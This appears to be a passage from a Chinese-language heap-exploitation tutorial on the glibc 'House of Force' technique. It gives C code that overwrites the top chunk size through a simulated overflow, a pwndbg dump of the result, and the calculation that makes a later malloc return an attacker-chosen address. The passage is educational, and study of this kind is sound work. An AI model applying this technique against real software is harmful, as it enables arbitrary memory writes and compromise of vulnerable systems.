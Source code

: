 ```
```

我们假设此时 p1 有溢出漏洞，我们可以去修改 top chunk 的 size：

``` c++
	//----- VULNERABILITY ----
	intptr_t *ptr_top = (intptr_t *) ((char *)p1 + real_size - sizeof(long));
	fprintf(stderr, "\nThe top chunk starts at %p\n", ptr_top);

	fprintf(stderr, "\nOverwriting the top chunk size with a big value so we can ensure that the malloc will never call mmap.\n");
	fprintf(stderr, "Old size of top chunk %#llx\n", *((unsigned long long int *)((char *)ptr_top + sizeof(long))));
	*(intptr_t *)((char *)ptr_top + sizeof(long)) = -1;
	fprintf(stderr, "New size of top chunk %#llx\n", *((unsigned long long int *)((char *)ptr_top + sizeof(long))));
	//------------------------
```

修改后：

```
pwndbg> x/10gx 0x603100
0x603100:	0x0000000000000000	0x0000000000000000
0x603110:	0x0000000000000000	0xffffffffffffffff      <--  top chunk
0x603120:	0x0000000000000000	0x0000000000000000
0x603130:	0x0000000000000000	0x0000000000000000
0x603140:	0x0000000000000000	0x0000000000000000
```

我们发现 top chunk 被修改为了一个很大的数。

> 现在我们可以 malloc 一个任意大小的内存而不用调用 mmap 了。
> 接下来 malloc 一个 chunk，使得该 chunk 刚好分配到我们想要控制的那块区域为止，这样在下一次 malloc 时，就可以返回到我们想要控制的区域了。
> 计算方法是用目标地址减去 top chunk 地址，再减去 chunk 头的大小。

``` c++
	/*
	 * The evil_size is calulcated as (nb is the number of bytes requested + space for metadata):
	 * new_top = old_top + nb
	 * nb = new_top - old_top
	 * req + 2sizeof(long) = new_top - old_top
	 * req = new_top - old_top - 2sizeof(long)
	 * req = dest - 2sizeof(long) - old_top - 2sizeof(long)
	 * req = dest - old_top - 4*sizeof(long)
	 */
	unsigned long evil_size = (unsigned long)bss_var - sizeof(long)*4 - (unsigned long)ptr_top;
	fprintf(stderr, "\nThe value we want to write to at %p, and the top chunk is at %p, so accounting for the header size,\n"
	   "we will malloc %#lx bytes.\n", bss_var, ptr_top, evil_size);
	void *new_ptr = malloc(evil_size);
	fprintf(stderr, "As expected, the new pointer is at the same place as the old top chunk: %p\n", new_ptr - sizeof(long)*2);
```
